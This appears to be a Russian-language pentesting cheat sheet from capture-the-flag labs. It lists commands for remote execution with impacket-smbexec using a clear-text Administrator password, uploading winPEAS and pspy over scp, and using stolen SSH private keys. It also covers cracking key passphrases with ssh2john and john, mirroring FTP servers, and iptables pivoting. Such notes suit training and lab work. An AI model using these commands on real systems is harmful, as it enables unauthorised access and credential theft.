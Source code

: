 impacket-smbexec active.htb/Administrator:Ticketmaster1968@10.10.10.100

# Сетевые сервисы SSH

--Создание ключей
	ssh-keygen -f theseus
	key.pub - бросаем на сервер и переименовываем в authorized_keys
 	своц ключ помечаем chmod 600
  
(по умолчанию ключ называется id_rsa и id_rsa.pub)

ssh john@10.8.0.14

Передадим файл на удаленную машину по SSH с помощью scp

scp winPEASx64.exe helpdesk@192.168.50.38:C:\\Users\\helpdesk\\

scp pspy64s floris@10.10.10.150:/tmp

(Надо находится снаружи машины, в директории где файл)

и обратно

scp lnorgaard@10.10.11.227:/home/lnorgaard/RT30000.zip RT300010.zip

scp -i ./rsa/2048/4161de56829de2fe64b9055711f531c1-2537 n30@weakness.jth:/home/n30/code .

!!!sftp Administrator@10.10.223.139   (как FTP)

 - Основные пользовательские ключи обычно хранятся в директории `~/.ssh/id_rsa` (домашняя директория пользователя).

~/.ssh/id_rsa
~/.ssh/id_rsa.pub

ssh ключи всегда хранятся в папке пользователя user/.ssh

если у меня есть #id_rsa# а на серваке id-rsa.pub

(ключи всегда должны быть chmod 600)

то можно !!!!! ssh -i id_rsa daniel@10.129.95.192 !!!!!!

для доступа к закрытому ключу может потребоваться кодовая фраза, тогда

ssh2john id_rsa > hash_rsa  
                                                                                                                                               
john hash_rsa --wordlist=/usr/share/wordlists/rockyou.txt


ssh -i 4161de56829de2fe64b9055711f531c1-2537 n30@weakness.jth (ключ приватный)

# FTP

wget -m --no-passive ftp://10.10.10.98


# Включение линукс как прокси сервер
---на linux
echo 1>/proc/sys/net/ipv4/ip_forward
sudo iptables -A FORWARD -i tun0 -o wlan0 -m state --state RELATED,ESTABLISHED -j ACCEPT
sudo iptables -A FORWARD -i wlan0 -o tun0 -j ACCEPT
sudo iptables -t nat -A POSTROUTING -s 192.168.50.0/24 -o tun0 -j MASQUERADE
---на windows
route add 10.10.10.0/23 mask 255.255.254.0 192.168.50.123 
